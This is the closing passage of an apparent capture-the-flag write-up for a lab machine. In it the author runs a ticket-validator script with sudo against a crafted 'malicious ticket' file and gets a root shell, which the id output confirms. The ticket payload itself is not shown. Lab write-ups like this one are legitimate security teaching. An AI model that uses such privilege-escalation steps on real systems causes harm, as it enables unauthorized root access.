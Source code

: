 Now let's execute the python script and feed it out malicious ticket

```terminal
development@bountyhunter:~$ sudo python3.8 /opt/skytrain_inc/ticketValidator.py 
Please enter the path to the ticket file.
/home/development/hack.md
Destination: New Heaven
root@bountyhunter:/home/development# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhunter:/home/development#
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).


## References

https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1
